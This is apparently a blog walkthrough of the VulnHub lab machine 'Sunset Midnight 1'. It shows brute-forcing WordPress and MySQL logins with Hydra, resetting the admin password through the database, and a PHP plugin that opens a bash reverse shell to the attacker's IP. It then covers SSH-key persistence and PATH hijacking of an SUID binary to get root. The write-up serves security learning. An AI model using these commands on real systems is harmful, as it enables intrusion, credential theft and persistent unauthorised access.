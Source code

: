 ```yaml
---
title: VulnHub - Sunset Midnight 1
layout: post
date: 2020-08-15 15:00:00 +0800
---
```


![835b797b1e2e3a1bd8c520ebcfe40a9f.png](/images/vh-sunsetmidnight1/505b35bde6c545a9beb4812fd7d7da12.png)

### 0. Preface

This is a very straightforward machine. There is a small rabbithole right at the start with the Simply Poll plugin, though. 

In this box, we will be tackling: 

1. Weird Hydra results.
2. Resetting WordPress passwords through the database.
3. Getting a reverse shell using a WordPress "plugin".
4. Exploiting an SUID binary

<!--excerpt-->

---

### 1. Preliminary NMAP Scan
```bash
sudo nmap -sC -sV -oN nmap.txt 192.168.32.9 -v
```

![2a2b126914bf9898bdbb0227c44a1fac.png](/images/vh-sunsetmidnight1/7ddbd4d68abc4b56913ad4bc89006b15.png)

Port 80 is open, and the `robots.txt` has an entry - `/wp-admin`. This is most likely running WordPress. We also rarely see port 3306 open on a box. We definitely need to check that out as well. 

### 2. WordPress Login

Let's start with the website. 

![3f22d7d9bbd27c10eeb9c64238b12d4a.png](/images/vh-sunsetmidnight1/fe1b82c444284d7183f778148405ce15.png)

Nothing much to see here. Let's try to bruteforce `/wp-admin` with `Hydra`. 

```text
hydra -l admin -P /usr/share/wordlists/rockyou.txt sunset-midnight http-post-form "/wp-admin:log=^USER^&pwd=^PASS^&wp-submit=Log+In:The password you entered for the username"
```

![5313d3c9b89ae1fc7dcd97badd643122.png](/images/vh-sunsetmidnight1/c517988253c34d1197ec8bc7bb7a143e.png)

Interestingly, `Hydra` gives us a bunch of credentials, but none of them work. Let's move on to the SQL server on port 3306. Same thing, we are going to try to bruteforce this again with `Hydra`.

```text
hydra -l root -P /usr/share/wordlists/rockyou.txt mysql://sunset-midnight
```

![1389fe2299e6ccfb17e77bb22111c1d3.png](/images/vh-sunsetmidnight1/c885e7a94e974af095b5d535b9e39e68.png)

We got a hit - `root:robert`. Let's login.

```mysql
mysql -u 'root' -p -h 192.168.32.9
```

![e1020cd2a9b0b516fc68d872b831ec6f.png](/images/vh-sunsetmidnight1/c59b911367e947edb5aa66434a65d846.png)

Let's do a basic enumeration of databases. 

```mysql
select * from information_schema.schemata;
```

![4685a1bab189036c2951f78537d32706.png](/images/vh-sunsetmidnight1/956e52d4e72c4b1b94e49cc52b29364b.png)

Now, let's see what's inside `wordpress_db`.

```mysql
select table_name from information_schema.tables where table_schema='wordpress_db';
```

![eab6436ee969c0af1012a144ee4da617.png](/images/vh-sunsetmidnight1/71d3ca98c90747d2a54e0658bdb3abac.png)

Alright, seems like we have a users table. Let's see if we can't find some passwords. 

```mysql
use wordpress_db;
select * from wp_users;
select user_login,user_pass from wp_users;
```

![3493869df3e4dd0c3d7e853b3d8b7a94.png](/images/vh-sunsetmidnight1/5b2471868fdc427eb4420db4c1d236da.png)

Let's try to crack the hash with `John`.

```text
sudo john --wordlist:/usr/share/wordlists/rockyou.txt wp-admin.hash
sudo john --show wp-admin.hash
```

![7227758a6091a8617214895c6275e119.png](/images/vh-sunsetmidnight1/04397dff4f2b49028fa7629a3679a676.png)

No luck here, so let's try resetting the password to `admin` in the database directly. 

```mysql
update wp_users set user_pass = md5('admin') where id=1 limit 1;
```

![d757489c783f327fc81c44efe8947b22.png](/images/vh-sunsetmidnight1/a9d4495a8547459d8765df8f98901af3.png)

Now we can try to login to `/wp-admin` with `admin:admin`. 

![11cde12aca2dcdbfa3812430c7064c43.png](/images/vh-sunsetmidnight1/570b1a22136345b986d00d06e10b9163.png)

And we're in. 

### 3. WordPress Plugin Reverse Shell 

Now that we're in, we can try to get a reverse shell going through WordPress plugins. Let's create the following PHP file as our "plugin", then zip it. 

```php 
<?php 

/**
* Plugin Name: abcdefg
* Author: hijklmnop
*/

shell_exec(bash -c 'bash -i >& /dev/tcp/192.168.32.4/8000 0>&1);
?>
```

```text
7z a rev.zip rev.php
```

![525d855bfdbb0d5105b6d21a37f64645.png](/images/vh-sunsetmidnight1/550ddba1f42146f28c82de63fde0ebea.png)

Now we can upload the plugin, setup a netcat listener on port 8000, then activate the plugin to trigger the reverse shell. 

![923b4b04b6dd336b95b0411f9a8427bb.png](/images/vh-sunsetmidnight1/1181eb0c71884d14b7c953bf79d42634.png)

![36761ae82c084da68ae3131e7e2051e1.png](/images/vh-sunsetmidnight1/d611436c962e49c3a784bf43fc6d3531.png)

### 4. Pivoting to User

Since we're logged on as `www-data`, let's take a look at `/etc/passwd` to determine who we need to pivot to. 

![3ca20eef74e04739beeaeb2902c6007f.png](/images/vh-sunsetmidnight1/2dde1be39c624d9e9ff9ab892e0f4497.png)

Let's see if we can't pivot to `jose`. We can automatically enumerate this machine with `linpeas.sh`, so let's upload and run that. 

![675782816ce7cce6bb21057143e2bac7.png](/images/vh-sunsetmidnight1/d53a258ae3014a62a4f2de206092c097.png)

We got some potential credentials in `wp-config.php` -  `jose:645dc5a8871d2a4269d4cbe23f6ae103`. Let's try to `su` to `jose` using the credentials. 

![e8707c6c288b1e62500c17e926d1807e.png](/images/vh-sunsetmidnight1/9475c81f6e0943d096181b4af4c70a2c.png)

Now we're in. Let's grab the user flag first. 

Next, for a more permanent foothold, we will generate a SSH key with `ssh-keygen`. 

![d403289a0c3d34cc18ca5d9f030f1eb9.png](/images/vh-sunsetmidnight1/0469e981f8a4420c98f3d57b2be2ee6b.png)

Now that we have generated the private and public key pair, we need to copy and paste the contents of `id_rsa.pub` into `/home/jose/.ssh/authorized_keys`. 

![8ddfaf4366820c14a1877a4809703598.png](/images/vh-sunsetmidnight1/cdfafc277ac04fd787a059fd9ea42924.png)

Let's log back into SSH using the private key. 

```
ssh jose@192.168.32.9 -i ./keys/id_rsa
```

![bdc4ed3bea1d42a0d0c75dc44775bba8.png](/images/vh-sunsetmidnight1/bf9699c4ca39458fa9c8af4bce7598f1.png)

### 5. Exploiting SUID to Root

Let's upload and run `linpeas.sh` again. 

![72fb632bf2e19d1ce97f315db27fb288.png](/images/vh-sunsetmidnight1/b2e28277abec4db88e6ba4462c7145dc.png)

In the output, we see a file, `/usr/bin/status`, which has SUID/SGID set. This file is most likely a custom binary. Running the file produces an error. 

![cb1168153b5a76b305d4cac915f691a7.png](/images/vh-sunsetmidnight1/9f4f582f41674cf6bc20f06216d7f512.png)

Let's run strings on it to roughly see what it does. 

![5e1557f429d9037db0e5eabccc049fa2.png](/images/vh-sunsetmidnight1/ac2c29e23b054433916f7b081a49e331.png)

It looks like it's trying to run the `service` binary which doesn't exist on this box. We can create our own `service` in `/home/jose` to execute `/bin/bash` as root with the follwing script.

```bash
#!/bin/bash

bash -c /bin/bash
```

For this to work, we will also need to add `/home/jose` to the `$PATH` environment variable. 

```bash
export PATH=/home/jose:$PATH
```

![f3bec1579c033784179648994857bc47.png](/images/vh-sunsetmidnight1/4469c4975f814a2d83bb648c5191011c.png)

Next, we can run `which service` to verify that the script will be run when executing `service`. 

![452fe132c91c1e83bcd46ed351b5b00b.png](/images/vh-sunsetmidnight1/89338363d7514eb493494810f3051c2c.png)

Now, let's run `/usr/bin/status` and get a root shell. 

![73553e5a23c3474c314656b984773d0f.png](/images/vh-sunsetmidnight1/7caeb656e4bd4a389cdf8ad517f14519.png)
